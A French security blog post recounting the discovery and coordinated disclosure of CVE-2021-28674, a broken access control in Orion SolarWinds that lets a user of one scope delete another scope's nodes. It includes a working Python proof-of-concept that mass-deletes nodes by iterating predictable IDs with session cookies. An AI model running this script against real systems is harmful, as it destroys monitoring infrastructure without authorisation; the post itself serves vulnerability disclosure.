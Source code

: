 ```yaml
---
published: true
layout: post
title: "Orion SolarWinds : Ma première CVE (CVE-2021-28674)"
description: "Cet article décrit comment j'ai pu découvrir ma première CVE (CVE-2021-28674) sur le logiciel Orion SolarWinds."
lang: fr_FR
category: solarwinds,orion,cve,pentest,cve-2021-28674
---
```

![Orion SolarWinds : Ma première CVE (CVE-2021-28674)](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/illustration.jpg)

**Orion SolarWinds** est une plateforme évolutive de gestion et de surveillance de l’infrastructure qui simplifie la gestion informatique des environnements sur site, hybrides et SaaS, sur un seul écran.
En décembre 2020, une cyber attaque à grande échelle s'appuyant sur Orion SolarWinds, utilisé par environ 33 000 clients des secteurs public et privé, est divulguée.
Suite à cela, de nombreux audits sont organisés et des CVE régulièrement trouvées. J'ai moi même pu auditer cette application, trouver et déclarer ma première CVE (CVE-2021-28674) de CVSS 4.6 (criticité moyenne) en date du 18 mars 2021.
Après plusieurs mois d'échanges avec l'éditeur et [MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-28674) pour s'accorder sur la correction et la date de publication, je peux enfin publier cet article car la mise à jour est déjà sortie depuis plusieurs semaines.

## Qu'est-ce que le cloisonnement
Le contrôle d'accès permet d'appliquer une politique telle que les utilisateurs ne peuvent agir en dehors des autorisations qui leur sont accordées. Les défaillances entraînent généralement la divulgation d'informations non autorisées, la modification ou la destruction de toutes les données ou l'exécution d'une fonction commerciale en dehors des limites de l'utilisateur.

## Fonctionnalité de gestion des nœuds
Orion SolarWinds NPM permet de créer des groupes. Un groupe est un ensemble d'objets surveillés. Par exemple, un administrateur peut regrouper les nœuds d'un même emplacement, regrouper toutes les interfaces WAN ou regrouper tous les appareils appartenant à un certain service. L'objectif final de la création de groupes est de permettre de visualiser certains nœuds selon les utilisateurs et de créer un contrôle d'accès sur les nœuds.
La page de gestion des nœuds avec le paramètre NetObject permet de visualiser et de supprimer le nœud **si l'utilisateur a les droits** en spécifiant l'identifiant du nœud (Par exemple : `https://URL-INTERNE/Orion/NetPerfMon/NodeDetails.aspx?NetObject=N:17158`).
Seuls les utilisateurs disposant du **droit d'écriture** peuvent supprimer un nœud **appartenant à leur périmètre**.


La demande de suppression d'un noeud a été rejouée avec un compte d'un périmètre B sur un noeud qui appartient au périmètre A :
[![Test de cloisonnement sur les nœuds Orion Solar Winds CVE-2021-28674](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/Orion-SolarWinds-cloisonnement-CVE.png)](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/Orion-SolarWinds-cloisonnement-CVE.png)

Le code de retour de la requête est `200 OK` ce qui signifie que **le serveur prend en compte la suppression du nœud**.
Le noeud **n'est plus accessible** depuis le compte du périmètre A :
[![Nœud Orion Solar Winds supprimé](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/nœuds-supprime.png)](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/nœuds-supprime.png)

Le nœud du **périmètre A** est donc **supprimé** par un compte du **périmètre B**. Cela prouve une **rupture de cloisonnement entre les périmètres**.
De plus, les identifiants des nœuds sont **incrémentaux** et donc facilement **prévisibles**, ce qui permet de créer un script pour **automatiser la suppression de tous les nœuds** pour un attaquant. Il est également possible de créer un nœud qui n'appartient pas à son périmètre.

Un script permettant de supprimer massivement les nœuds a été implémenté :
```python
try :
    import requests
    import time
except :
    print("The package 'requests' is not installed, please install it using pip3")
    exit(1)
        
url = "http://SERVER:PORT/orion/Services/NodeManagement.asmx/DeleteObjNow" # Replace SERVER by the IP or DNS of your Orion SolarWinds plateform
ASPXAUTH_value = "REPLACE ME BY YOUR COOKIE" # Replace this value by the .ASPXAUTH cookie value
NET_SessionId_value = "REPLACE ME BY YOUR COOKIE" # Replace this value by the NET_SessionId cookie value
number_of_nodes = 150 # The value can be changed to delete the first X number of nodes

custom_cookies = {"ASP.NET_SessionId": NET_SessionId_value,
                 "_ga": "GA1.1.1822133664.1613472044",
                 "_gid": "GA1.1.1288682357.1613472044",
                 ".ASPXAUTH": ASPXAUTH_value,
                 "XSRF-TOKEN": "sJs5IEd0v8S1Qxe33bsNocGeDk3T86WT6VN/HNFXDxE=",
                 "__AntiXsrfToken": "9a14f7b59a0c4352a500f0b84f2b7523"}

custom_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0", "Accept": "*/*",
                  "Accept-Language": "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate",
                  "X-Requested-With": "XMLHttpRequest", "Content-Type": "application/json; charset=utf-8",
                  "X-XSRF-TOKEN": "sJs5IEd0v8S1Qxe33bsNocGeDk3T86WT6VN/HNFXDxE=",
                  "Connection": "close"}

print("""
 ██████╗██╗     ███████╗██████╗ ███████╗██████╗ 
██╔════╝██║     ██╔════╝██╔══██╗██╔════╝██╔══██╗
██║     ██║     █████╗  ██████╔╝█████╗  ██████╔╝
██║     ██║     ██╔══╝  ██╔══██╗██╔══╝  ██╔══██╗
╚██████╗███████╗███████╗██████╔╝███████╗██║  ██║
 ╚═════╝╚══════╝╚══════╝╚═════╝ ╚══════╝╚═╝  ╚═╝
 
This PoC will delete the first """ +str(number_of_nodes) + """ nodes.
You need to replace the variables url, ASPXAUTH_value, number_of_nodes and NET_SessionId_value.
The script will start in 30 seconds, if you want to cancel it, press CTRL + C
""")
time.sleep(30) # Wait 30 seconds to prevent mishandling
print("Progress :")

for i in range (number_of_nodes):
    node_id={"netObjectIds": "N:" + str(i) + ":1"} # Iteration over the number of nodes because the nodes ID because ID is incremental 
    try :
        request = requests.post(url, headers=custom_headers, cookies=custom_cookies, json=node_id)
    except :
        print("Impossible to execute the request, check the url value")
        exit(2)
    if (request.status_code != 200):
        print("Impossible to delete nodes, please check the content of the variables ASPXAUTH_value, number_of_nodes and NET_SessionId_value")
        print("Status code : " + str(request.status_code))
        exit(2)
    print("{0:.2f}%".format(i*100/number_of_nodes)+" %")
print("The first " + str(number_of_nodes) + " are now deleted.")
```

Le script ainsi que la marche à suivre pour résoudre le problème a été envoyée directement à l'équipe sécurité de SolarWinds. Après plusieurs échanges, nous avons convenu d'un date de mise à jour et procédé à la déclaration sur MITRE. La page dédiée à la vulnérabilité est disponible sur le site de [SolarWinds](https://www.solarwinds.com/fr/trust-center/security-advisories/cve-2021-28674), la mise à jour en question a été publiée le 13 mai 2021 sur leur [page dédiée](https://support.solarwinds.com/SuccessCenter/s/article/Orion-Platform-2020-2-5-Hotfix-1?language=en_US)
Suite au déploiement de la mise à jour par SolarWinds, MITRE a publié tous les détails que je leur avait fait parvenir sur [cette page](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-28674).

Nous avons décidé de lui attribuer le score CVSS de 4,6 qui en fait une vulnérabilité de criticité moyenne :
[![Test de cloisonnement sur les nœuds Orion Solar Winds CVE-2021-28674](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/cvss-de-la-cve-2021-28674.png)](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/cvss-de-la-cve-2021-28674.png)


